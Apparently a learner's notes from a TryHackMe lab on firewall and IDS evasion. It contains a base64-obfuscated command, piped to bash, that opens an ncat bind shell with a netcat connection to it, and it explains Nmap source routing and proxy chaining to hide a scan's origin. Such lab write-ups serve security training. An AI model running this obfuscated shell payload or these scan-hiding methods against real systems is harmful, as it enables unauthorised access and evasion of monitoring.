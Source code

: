 !\[]\(Pasted image 20250523140826.png)

We can use the following payload at the last question:

```bash
echo 'bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA==' | base64 -d | bash
```

We can then connect using:

```
nc IP 1234
```

We will get a shell and can execute `whoami`:

!\[]\(Pasted image 20250523140924.png)

## Evasion via Route Manipulation

***

Evasion via route manipulation includes:

* Relying on source routing
* Using proxy servers

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/d0e4bdf9c029c7efa74b9962b3a42010.png)

#### Relying on Source Routing

In many cases, you can use source routing to force the packets to use a certain route to reach their destination. Nmap provides this feature using the option `--ip-options`. Nmap offers loose and strict routing:

* Loose routing can be specified using `L`. For instance, `--ip-options "L 10.10.10.50 10.10.50.250"` requests that your scan packets are routed through the two provided IP addresses.
* Strict routing can be specified using `S`. Strict routing requires you to set every hop between your system and the target host. For instance, `--ip-options "S 10.10.10.1 10.10.20.2 10.10.30.3"` specifies that the packets go via these three hops before reaching the target host.

#### Using Proxy Servers

The use of proxy servers can help hide your source. Nmap offers the option `--proxies` that takes a list of a comma-separated list of proxy URLs. Each URL should be expressed in the format `proto://host:port`. Valid protocols are HTTP and SOCKS4; moreover, authentication is not currently supported.

Consider the following example. Instead of running `nmap -sS 10.10.67.108`, you would edit your Nmap command to something like `nmap -sS HTTP://PROXY_HOST1:8080,SOCKS4://PROXY_HOST2:4153 10.10.67.108`. This way, you would make your scan go through HTTP proxy host1, then SOCKS4 proxy host2, before reaching your target. It is important to note that finding a reliable proxy requires some trial and error before you can rely on it to hide your Nmap scan source.

If you use your web browser to connect to the target, it would be a simple task to pass your traffic via a proxy server. Other network tools usually provide their own proxy settings that you can use to hide your traffic source.

!\[]\(Pasted image 20250523141025.png)
